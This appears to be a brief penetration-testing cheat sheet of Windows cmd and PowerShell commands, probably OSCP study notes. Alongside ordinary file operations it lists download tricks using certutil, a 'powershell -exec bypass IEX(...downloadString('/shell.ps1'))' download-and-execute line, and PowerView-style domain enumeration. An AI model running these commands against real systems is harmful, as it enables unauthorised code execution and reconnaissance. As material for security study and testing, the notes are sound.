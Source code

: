 # cmd + powershell

## PS styles

```bash
PS> $host
> powershell -c <cmd>
> powershell.exe -exec bypass -Command <>
```

## File commands

```bash
# download file
certutil.exe -urlcache [-split] -f <source> <destination>
PS> wget <source> -OutFile <dest>
PS> Invoke-WebRequest -Uri <source> -Outfile <out-path>
powershell -c (New-Object System.Net.WebClient).downloadFile('<source>', '<dest>')
powershell -exec bypass IEX(New-Object Net.WebClient).downloadString('/shell.ps1')
wget.vbs https://gist.github.com/sckalath/ec7af6a1786e3de6c309

#run file
> ren <src> <dest>
PS> Start-Process <file.exe>

# rename 
PS> Rename-Item -Path <file> -NewName <new-file>

# move 
> copy /Y <src> <dest>
PS> Move-Item -Path <src> -Destination <dest>
# /E copies entire dir-structure
> robocopy <src> <dest> /E

# delete
PS> Remove-Item -Path <file> [-recursive]
```

## Other PS cmds

```
# Enumerate Users
Get-NetUser | select cn

# Enumerate Domain Groups
Get-NetGroup -fulldata

# Enumerate SMB Shares
Get-SmbShare
Invoke-ShareFinder
```

## PS Cheatsheet

{% embed url="https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands/" %}

{% embed url="https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993" %}
